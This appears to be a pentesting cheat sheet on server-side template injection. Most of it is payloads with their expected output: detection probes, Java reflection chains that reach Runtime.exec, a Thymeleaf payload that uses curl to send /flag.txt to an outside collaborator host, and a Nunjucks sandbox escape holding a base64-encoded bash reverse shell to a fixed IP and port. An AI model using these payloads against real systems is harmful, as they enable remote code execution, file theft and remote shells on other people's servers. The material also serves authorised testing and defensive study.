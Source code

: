 **Server-Side Template Injection**


payloads start with * # or $
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md


# Detection 
```
#Basic string operations examples
{"a".toString()}
[a]

{"dfd".replace("d","x")}
[xfx]

#Access to the String class
{"".getClass()}
[class java.lang.String]

#Access ro the String class bypassing "getClass"
#{""["class"]}

#Access to arbitrary class
{"".getClass().forName("java.util.Date")}
[class java.util.Date]

#List methods of a class
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
[public boolean java.util.Date.equals(java.lang.Object)]


{{7*7}}

${7*7}

<%= 7*7 %>

${{7*7}}

#{7*7}

*{7*7}

'"`><img src=x>${{7*7}}

```




# RCE
```
#Check the method getRuntime is there
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]

#Execute command (you won't see the command output in the console)
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1:8000")}
[Process[pid=10892, exitValue=0]]

#Execute command bypassing "getClass"
#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}

# With HTMl entities injection inside the template
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```


# Errors
## require error 
Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. If we cannot directly use require to load such modules, we will have to find a different way
### Globals
In computer programming "Globals" are variables that are globally accessible throughout the program. In Node.js this works similarly, with Global objects being available in all loaded modules


# Node.js nunchucks template

https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

```
{“email”:”{{range.constructor(\”return global.process.mainModule.require(‘child_process’).execSync(‘echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDMgMD4mMSIK | base64 -d | bash’)\”)()}}”}
```